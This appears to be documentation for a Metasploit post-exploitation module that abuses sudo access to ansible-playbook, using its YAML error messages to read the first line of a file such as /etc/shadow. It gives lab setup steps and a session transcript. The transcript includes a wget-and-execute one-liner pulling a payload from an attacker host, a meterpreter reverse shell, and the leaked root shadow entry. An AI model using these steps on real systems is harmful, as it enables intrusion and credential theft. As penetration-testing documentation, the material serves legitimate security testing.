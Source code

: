 ## Vulnerable Application

This module will read the first line of a file based on an error message from ansible-playbook with sudo privileges.
ansible-playbook takes a yaml file as input, and if there is an error, such as a non-yaml file, it outputs the line
where the error occurs. This can be exploited to read the first line of the file, which we'll typically want to read
/etc/shadow to obtain root's hash.

### Docker-compose Install

Use the ansible lab files located [here](https://github.com/abdennour/ansible-lab-environment-in-containers).

Before bringing up the `docker-compose` instance, you'll want to generate an SSH key: `ssh-keygen -t rsa -N "" -f secrets/id_rsa`

Of note, only 1 of the 3 alpine hosts will be successful due to the port conflict. This is fine though.

Next you'll need to add a user:

```
docker exec -it ansible-lab-environment-in-containers_controlnode_1 /bin/sh
useradd user
chmod o+w /etc/sudoers
echo -ne "\nuser ALL=(ALL) NOPASSWD: /usr/local/bin/ansible-playbook *\n" >> /etc/sudoers
chmod o-w /etc/sudoers
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get an initial shell on the box
1. Do: `use post/linux/gather/ansible_playbook_error_message_file_reader`
1. Do: `set session [#]`
1. Do: `run`
1. You should be able to read the top line of a file.

## Options

### ANSIBLEPLAYBOOK

Location of ansible-playbook executable if not in a standard location. This is added to a list of default locations
which includes `/usr/local/bin/ansible-playbook`, `/usr/bin/ansible-playbook`. Defaults to ``

### FILE

File to be read. Defaults to `/etc/shadow`

### FULLOUTPUT

If the entire command output should be displayed, or only the error line. Defaults to `false`

## Scenarios

### Docker compose as mentioned above

Get initial access to the system

```
resource (ansible_playbook.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (ansible_playbook.rb)> set lhost 192.168.2.128
lhost => 192.168.2.128
resource (ansible_playbook.rb)> set srvport 8181
srvport => 8181
resource (ansible_playbook.rb)> set lport 8183
lport => 8183
resource (ansible_playbook.rb)> set target 7
target => 7
resource (ansible_playbook.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (ansible_playbook.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.2.128:8183 

[*] Using URL: http://192.168.2.128:8181/I5062GM5P5Avgu
[*] Server started.
[*] Run the following command on the target machine:
wget -qO lAM5H81x --no-check-certificate http://192.168.2.128:8181/I5062GM5P5Avgu; chmod +x lAM5H81x; ./lAM5H81x& disown

[*] Starting persistent handler(s)...
[*] 172.28.0.3       web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 172.28.0.3
[*] Meterpreter session 1 opened (192.168.2.128:8183 -> 172.28.0.3:37216) at 2023-12-13 14:58:36 -0500
[msf](Jobs:1 Agents:1) post(linux/gather/ansible_playbook_error_message_file_reader) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/playbook) > getuid
Server username: user
(Meterpreter 1)(/playbook) > cat /etc/shadow
[-] core_channel_open: Operation failed: 1
(Meterpreter 1)(/playbook) > background
[*] Backgrounding session 1...
```

```
resource (ansible_playbook.rb)> use post/linux/gather/ansible_playbook_error_message_file_reader
resource (ansible_playbook.rb)> set session 1
session => 1
resource (ansible_playbook.rb)> set verbose true
verbose => true
[msf](Jobs:1 Agents:1) post(linux/gather/ansible_playbook_error_message_file_reader) > run

[*] Checking sudo
[*] Executing: sudo -n -l
[*] Executing: sudo -n /usr/local/bin/ansible-playbook /etc/shadow
[+] root:!::0:::::
[*] Post module execution completed
```